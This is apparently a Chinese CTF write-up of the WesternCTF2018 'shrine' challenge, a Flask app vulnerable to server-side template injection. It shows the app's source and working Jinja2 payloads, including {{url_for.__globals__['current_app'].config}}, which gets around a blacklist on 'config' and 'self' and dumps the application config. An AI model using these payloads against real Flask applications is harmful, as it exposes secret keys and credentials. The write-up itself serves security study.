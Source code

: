 ```yaml
---
title: 日常练习19

date: 2021-04-21 09:26:42

tags: 练习

categories: test68

---
```

# [WesternCTF2018]shrine  

这道题目是一道ssti注入，只不过有了新的知识点。  

打开题目得到源码：  

	import flask
	import os
	
	app = flask.Flask(__name__)
	
	app.config['FLAG'] = os.environ.pop('FLAG')
	
	@app.route('/')
	def index():
	return open(__file__).read()

	@app.route('/shrine/')
	def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
	return flask.render_template_string(safe_jinja(shrine))

	if __name__ == '__main__':
	app.run(debug=True)
  
看到题目中给出了模板是flask模板，并且给了两个路由，可以猜到是ssti注入。  

我们测试在shrine路由下是否又ssti注入点：  

	/shrine/{{7*7}}  

[![](https://img.imgdb.cn/item/6082c707d1a9ae528f0650b1.png)](https://img.imgdb.cn/item/6082c707d1a9ae528f0650b1.png)  

发现返回了49，说明确实存在ssti注入。那么接下来就是看一下代码过滤了什么：  

	@app.route('/shrine/')
	def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
	return flask.render_template_string(safe_jinja(shrine))  

可以看到过滤了左右括号，并且还有一个黑名单，里面有config和self，他会把它们替换为空。  

但是代码一开始就已经提醒我们flag在app.config['FLAG']中，本来我们直接读config就可以得到flag了，但是现在它是黑名单里的，这时候就要用到一个知识点：  

	Python的沙箱逃逸可以利用Python对象之间的引用关系来调用被禁用的函数对象。  

这里我们调用python的内置函数url_for，如果搭配上globals，我们就能看到当前位置的全局变量。  

	/shrine/{{url_for.__globals__}}   

[![](https://img.imgdb.cn/item/6082ca2ed1a9ae528f2a94e4.png)](https://img.imgdb.cn/item/6082ca2ed1a9ae528f2a94e4.png)  

我们找到current_app，这个就是当前的app，我们直接读它的config就行了。  

	/shrine/{{url_for.__globals__['current_app'].config}}  

[![](https://img.imgdb.cn/item/6082ca9cd1a9ae528f2fc1d5.png)](https://img.imgdb.cn/item/6082ca9cd1a9ae528f2fc1d5.png)  

得到flag。  

# 小结  

这道题就是一个ssti注入的知识点，其实我也没怎么看懂，先记住吧。